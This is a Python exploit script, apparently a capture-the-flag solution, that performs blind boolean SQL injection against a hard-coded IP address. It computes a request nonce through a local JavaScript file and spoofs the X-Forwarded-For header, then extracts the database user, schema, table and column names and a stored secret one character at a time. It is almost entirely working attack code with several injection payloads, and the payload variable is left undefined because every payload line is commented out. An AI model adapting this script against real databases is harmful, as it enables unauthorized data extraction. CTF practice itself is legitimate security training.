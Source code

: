 
exp.py
```python

import requests
import execjs 
import time

def get_js():  
     
    f = open("web.js",'r')  
    line = f.readline()  
    htmlstr = ''  
    while line:  
        htmlstr = htmlstr + line  
        line = f.readline()  
    return htmlstr  
def get_nonce(id,title,author,date):
    jsstr = get_js()  
    ctx = execjs.compile(jsstr)  
    return (ctx.call("submitt",id,title,author,date))

flag=""
old_url="http://116.85.43.88:8080/ZVDHKBUVUZSTJCNX/dfe3ia/"

for i in range(1,400):
    for j in range(33,127):
        #payload = "admin' and strcmp(ascii(substr(user(),%s,1)),%s) #" %(i,j)
        #payload = "admin' and strcmp(ascii(substr((select group_concat(schema_name) from information_schema.schemata),%s,1)),%s) #" %(i,j)
        #payload = "admin' && strcmp(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema='ddctf'),%s,1)),%s) #" %(i,j)
        #payload = "admin' && strcmp(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctf_key5'),%s,1)),%s) #" %(i,j)
        #payload = "admin' and strcmp(ascii(substr((select secvalue from ctf_key5),%s,1)),%s) #" %(i,j)
        #payload = "admin' and strcmp(ascii(substr((select * from ctf_key5),%s,1)),%s) #" %(i,j)
        url = old_url+get_nonce('','',payload,'')
        
        data ={
            "id": "",
            "title": "",
            "author":payload,
            "date":""
        }
        headers = {'X-Forwarded-For': '123.232.23.245'}

        r = requests.post(url=url,headers=headers,data=data)

        #print r.content
        if "admin" not in r.content:
            flag += chr(j)
            print flag
            break
```
